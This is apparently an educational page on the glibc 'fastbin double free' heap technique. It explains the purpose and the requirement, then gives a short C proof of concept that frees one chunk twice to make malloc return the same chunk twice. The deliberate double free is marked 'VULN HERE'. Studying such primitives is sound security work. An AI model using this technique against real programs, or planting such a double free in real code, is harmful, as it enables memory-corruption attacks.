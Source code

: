 ## fastbin double

**Purpose:** Double free in fastbin. Since fastbin just only have fastbin head chunk check, we can trick malloc to return the same chunk multiple times.

**Require:** Have an ability to free the same chunk twice (double free)

## PoC

```c
#include <stdio.h>
#include <stdlib.h>
#include <assert.h>

int main() {
    setbuf(stdout, NULL);
    setbuf(stdin, NULL);

    long *tcache_chunks[7];
    long *fastbin_chunk0, *fastbin_chunk1, *fastbin_chunk2, *reallocated_chunk0, *reallocated_chunk1, *reallocated_chunk2;

    // Fill tcache for size 0x70
    for (int i = 0; i < 7; i++) {
        tcache_chunks[i] = malloc(0x70);
    }

    fastbin_chunk0 = malloc(0x70);
    fastbin_chunk1 = malloc(0x70);
    fastbin_chunk2 = malloc(0x70);

    malloc(0x70); // Prevent consolidation with top chunk

    for (int i = 0; i < 7; i++) {
        free(tcache_chunks[i]);
    }

    free(fastbin_chunk0);
    free(fastbin_chunk1);
    /* VULN HERE */
    free(fastbin_chunk0); // Double free vulnerability
    /* VULN HERE */

    for (int i = 0; i < 7; i++) {
        tcache_chunks[i] = malloc(0x70); // Empty tcache
    }

    reallocated_chunk0 = malloc(0x70);
    reallocated_chunk1 = malloc(0x70);
    reallocated_chunk2 = malloc(0x70);

    assert(reallocated_chunk0 == reallocated_chunk2); // Should be equal due to double free
    return 0;
}
```
